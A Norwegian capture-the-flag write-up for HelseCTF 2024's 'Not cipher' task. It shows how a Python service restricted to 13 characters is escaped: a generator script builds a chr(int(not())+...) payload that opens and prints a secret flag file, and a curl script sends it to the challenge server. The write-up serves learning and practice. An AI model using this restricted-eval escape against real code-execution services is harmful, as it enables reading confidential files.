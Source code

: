 ### Not cipher
Utvikler Carl I. Pher trenger av og til å kjøre python-programmer på webserveren sin. Derfor har han laget en veldig enkel webtjeneste for å sende inn python-programmer og returnere output:

Eksempelkjøring av program: curl 'http://server/?program=print(repr(repr))'

For å hindre misbruk er kun 13 forskjellige tegn tillatt i python-programmet: not+cipher(*)

Dessverre viser det seg at dette ikke er godt nok. Hent ut flagget i /lol/hemmeligmappe/flagg.txt

#### Løsning
Her har man kun 13 tegn man kan bruke, og fil-banen vi skal til har mange bokstaver som vi ikke har tilgjengelig. Heldigvis har vi nok bokstaver til `chr`, noe som betyr at vi kan gjøre tall om til bokstaver. Men da er problemet, hvordan skal man få tall? Her kan vi bruke et par forskjellige måter:

1. `int()**int()`. Dette blir 0^0=1
2. `int(not())` 

Jeg valgte å bruke int(not()) for å redusere lengden.

Denne oppgaven *kan* løses manuelt, men ikke forvent å ha hår igjen på hodet etterpå. Måten jeg løste det på var å lage et python script til å generere en lang rekke med `chr(int(not())+int(not()))+...`.

```python
path = "/lol/hemmeligmappe/flagg.txt"
one = "int(not())+"

script_content = "print(*open("

for char in path:
    ascii_value = ord(char)
    char_expression = one * ascii_value
    script_content += "chr(" + char_expression[:-1] + ")+"

script_content = script_content.rstrip('+') + "))"

with open("solve.py", "w") as file:
    file.write(script_content)
```
Her får jeg ascii tallet for hver bokstav i filbanen og ganger dette med stringen `"int(not())+"` sånn at vi lager det samme tallet. Til slutt legger vi til `print(*open(` i starten og `))` på slutten og skriver det til en ny fil. Innholdet av denne filen er det vi sender til serveren.

Problemet her er at filen er for stor til å bli limt inn i terminalen, så vi må også lage et bash script for å sende det.
```sh
#!/bin/bash

script_path="solve.py"
url_encoded_script=$(<"$script_path" python3 -c "import sys, urllib.parse; print(urllib.parse.quote(sys.stdin.read()))")
url="https://helsectf2024-2da207d37b091b1b4dff-not-cipher.chals.io/?program=$url_encoded_script"
curl "$url"
```


`helsectf{lange_programmer_lever_lengst}`